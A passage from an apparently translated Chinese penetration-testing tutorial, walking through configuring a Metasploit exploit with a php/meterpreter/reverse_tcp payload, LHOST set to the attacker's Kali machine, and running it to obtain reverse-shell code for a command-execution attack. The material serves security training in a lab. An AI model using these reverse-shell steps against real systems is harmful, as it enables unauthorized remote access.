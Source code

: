 图 23：利用漏洞的可用目标

6.  现在，我们将配置该漏洞。设置以下选项：

```
set Target 1
set LHOST 192.168.34.153
set LPORT 1337
set payload php/meterpreter/reverse_tcp
```

记住，`LHOST`是您的 Kali 虚拟机 IP，`LPORT`可以是任何随机端口号。我们使用的负载是反向 TCP`meterpreter`外壳。您可以使用`show options`命令确认您的选项：

![](img/fc3fd8c5-35e0-4610-8ab1-2aa9c0c394a3.png)

图 24：配置漏洞利用选项

7.  配置完这些选项后，使用`run`命令运行漏洞利用。注意输出。突出显示的代码是我们将在命令执行攻击中使用的代码，用于为我们的攻击系统生成一个反向外壳。复制该代码，不要关闭终端窗口或退出 Metasploit：

![](img/b4cbfdb6-84d4-4849-b5f9-029fb75bf700.png)
